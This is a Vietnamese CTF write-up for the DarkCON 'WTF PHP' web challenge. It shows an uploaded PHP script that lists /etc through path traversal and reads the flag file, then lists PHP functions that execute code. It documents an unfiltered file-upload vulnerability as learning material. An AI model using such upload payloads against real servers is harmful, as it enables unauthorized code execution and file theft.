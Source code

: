 ```yaml
---
layout: post
title:  "[DarkCON CTF] WTF PHP"
description: Write-up Web Exploitation DarkCON CTF
tags: writeup
---
```

# Web Vulnerability: File upload

Đề bài:

![image](/_img/2021-02-22-[darkCON-CTF]-WTF-PHP-1.png)  

Bắt tay vào xem thử như nào thôi

![image](/_img/2021-02-22-[darkCON-CTF]-WTF-PHP-2.png)  
Vừa nhìn vào thì đầu mình đã nhảy số rằng bài này sẽ đi khai thác lỗ hổng `File upload`. Vẫn như thói quen thì ban đầu mình view source của web lên và phát hiện được author đã comment code bên trong:  

![image](/_img/2021-02-22-[darkCON-CTF]-WTF-PHP-3.png)  
Code cũng khá là đơn giản ban đầu web sẽ cho upfile bất kì không hề filter :D và file bắt buộc phải nhỏ hơn 1048576B. Tiếp đó nếu upload thành công thì file sẽ tạo ra link và move đến dir `/upload/[random name file], ngược lại xuất ra lỗi

Như vậy với đề bài trên mục tiêu của ta sẽ đi đến folder /etc và ở đây sẽ có file flag.txt.  
Mình có thử upload một file hình và chèn vào đó là code php `echo "hello" và vẫn upload bình thường và code cũng được execute luôn. 
![image](/_img/2021-02-22-[darkCON-CTF]-WTF-PHP-4.png)  
Đến đây thì mọi việc dễ dàng hơn rồi! Tiếp đó mình dùng hàm scandir để đọc hết các folder trên server vào cat flag và đây là code của mình:  

```
<?php
	$dir    = '../../../../etc';
	$files = scandir($dir);
	print_r($files);
	print(file_get_contents('../../../../etc/f1@g.txt'));
?>
//flag: darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}
```
Thành quả  
![image](/_img/2021-02-22-[darkCON-CTF]-WTF-PHP-5.png) 
Bài này là bài khá dễ, file được upload lên server mà không hề filter format file nên rất dễ thực thi code và exploit.  
Qua bài trên mình cũng tìm ra được một số hàm có thể thực thi code php mà mình cần nhớ đó là:  
```
eval();

assert();

system();

exec();

shell_exec();

passthru();

escapeshellcmd();

pcntl_exec();

```
Chán đời, bài dễ vl mà éo chịu làm, tui bùn lắm á mng :)

